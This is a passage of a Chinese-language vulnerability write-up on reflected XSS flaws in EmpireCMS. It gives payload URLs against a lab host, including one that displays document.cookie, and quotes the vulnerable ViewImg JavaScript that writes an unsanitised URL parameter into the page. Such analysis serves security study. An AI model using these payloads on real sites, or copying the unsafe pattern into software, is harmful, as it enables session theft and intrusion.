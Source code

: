 如果没有开启MAGIC_QUOTES_GPC，则利用addslashes函数进行转义

addslashes()函数返回在预定义字符之前添加反斜杠的字符串

网页输出

然而输出的位置是在iframe标签的src里，这意味着之前的过滤都没有什么用。iframe标签可以执行js代码，因此可以利用javascript:alert(/xss/)触发xss

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

### payload

payload如下：

```
192.168.10.3/EmpireCMS/e/admin/openpage/AdminPage.php?ehash_3ZvP9=dQ7ordM5PCqKDgSmvkDf&mainfile=javascript:alert(/xss/)
```

其中ehash是随机生成的，在登录时可以看到ehash_3ZvP9=dQ7ordM5PCqKDgSmvkDf，如果缺少这个hash值，则会提示非法来源

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

获取cookie信息payload

```
192.168.10.3/EmpireCMS/e/admin/openpage/AdminPage.php?ehash_3ZvP9=dQ7ordM5PCqKDgSmvkDf&mainfile=javascript:alert(document.cookie)
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")

前台xss
-----

### 原理分析

漏洞类型：反射型xss

漏洞文件：localhost/EmpireCMS/e/ViewImg/index.html

漏洞原理：url地址经过Request函数处理之后,把url地址中的参数和值部分直接拼接当作a标签的href属性的值和img标签的src标签的值

主要漏洞代码位置localhost/upload/e/ViewImg/index.html

```
`if(Request("url")!=0){` `document.write("<a title=\"点击观看完整的图片...\" href=\""+Request("url")+"\" target=\"_blank\"><img src=\""+Request("url")+"\" border=0 class=\"picborder\" onmousewheel=\"return bbimg(this)\" onload=\"if(this.width>screen.width-500)this.style.width=screen.width-500;\">");` `}`
```

通过Request函数获取地址栏的url参数,并作为img和a标签的src属性和href属性,然后经过document.write输出到页面。

转到request函数定义

```
`function Request(sName)``{` `/*` `get last loc. of ?` `right: find first loc. of sName` `+2` `retrieve value before next &` `  */` `  var sURL = new String(window.location);` `var iQMark= sURL.lastIndexOf('?');` `var iLensName=sName.length;` `  //retrieve loc. of sName` `var iStart = sURL.indexOf('?' + sName +'=') //limitation 1` `if (iStart==-1)` `{//not found at start` `iStart = sURL.indexOf('&' + sName +'=')//limitation 1` `if (iStart==-1)` `{//not found at end` `return 0; //not found` `}``        }` `  iStart = iStart + + iLensName + 2;` `var iTemp= sURL.indexOf('&',iStart); //next pair start` `if (iTemp ==-1)` `{//EOF` `iTemp=sURL.length;` `}``  return sURL.slice(iStart,iTemp ) ;` `sURL=null;//destroy String``}`
```
